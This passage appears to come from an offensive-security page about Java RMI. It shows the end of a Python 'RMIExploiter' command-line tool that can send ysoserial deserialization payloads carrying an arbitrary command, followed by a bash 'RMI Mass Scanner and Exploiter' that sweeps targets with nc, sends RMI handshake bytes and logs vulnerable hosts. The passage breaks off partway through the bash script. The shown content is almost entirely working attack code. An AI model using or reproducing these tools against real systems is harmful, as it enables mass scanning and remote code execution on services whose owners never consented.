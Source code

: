 ```python
    exploiter = RMIExploiter()
    
    if args.check:
        result, message = exploiter.check_rmi_service(args.target, args.port)
        print(f"RMI Service: {result} - {message}")
    
    elif args.enumerate:
        result, message = exploiter.enumerate_registry(args.target, args.port)
        print(f"Registry Enumeration: {result} - {message}")
    
    elif args.exploit:
        if not args.gadget or not args.command:
            print("Error: --gadget and --command required for exploitation")
            return
        
        result, message = exploiter.send_ysoserial_payload(
            args.target, args.port, args.gadget, args.command
        )
        print(f"Exploitation: {result} - {message}")

if __name__ == "__main__":
    main()
```

### Mass RMI Scanner
```bash
#!/bin/bash
# RMI Mass Scanner and Exploiter

TARGETS="$1"
OUTPUT="rmi_scan_results.txt"
THREADS=20

scan_rmi() {
    target=$1
    port=$2
    
    echo "Scanning $target:$port"
    
    # Check if port is open
    timeout 2 nc -zv $target $port &>/dev/null
    if [ $? -eq 0 ]; then
        # Check for RMI service
        response=$(echo -e "\x4a\x52\x4d\x49\x00\x02\x4b" | timeout 5 nc $target $port | xxd -p)
        
        if [[ ! -z "$response" ]]; then
            echo "[+] RMI service found on $target:$port"
            echo "$target:$port" >> $OUTPUT
            
            # Additional checks
            check_vulnerabilities $target $port
        fi
    fi
}

check_vulnerabilities() {
    target=$1
    port=$2
    
    # Check for common RMI vulnerabilities
    java -jar rmi-scanner.jar $target $port >> vuln_scan.txt
    
    # Test for deserialization
```